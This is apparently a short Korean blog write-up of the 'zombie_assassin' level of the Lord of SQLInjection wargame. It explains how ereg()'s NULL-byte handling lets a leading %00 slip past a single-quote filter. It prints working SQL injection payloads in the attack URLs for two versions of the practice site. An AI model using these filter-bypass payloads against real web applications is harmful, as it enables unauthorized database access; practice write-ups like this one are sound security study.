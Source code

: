 ```yaml
---
layout: post
title: ! "[LOS] zombie_assassin"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - LOS
---
```


![]({{ site.baseurl }}/assets/posts/los/zombie_assassin.png)

직전 문제가 assassin이었는데 zombile_assassin 문제가 나왔다!<br>
id와 pw를 파라미터로 받고, 싱글 쿼터(')가 필터링 되어 있다.<br>
그런데 필터링을 할때 preg_match()가 아닌 ereg()를 사용한다. <br>
ereg() 함수는 대소문자 구분이 없고 NULL문자를 만나면 이후로 문자열 검사를 하지 않기 때문에
`%00`를 앞에 넣어 ' 필터링을 우회할 수 있다.

`https://los.eagle-jump.org/zombie_assassin.php?id=1&pw=%001' or id='admin`


### los.rubiya.kr 버전
`?id=%00&pw=%23e696d64616x0+tceles+noinu`

![]({{ site.baseurl }}/assets/posts/los/zombie_assassin_clear.png)
클리어!!

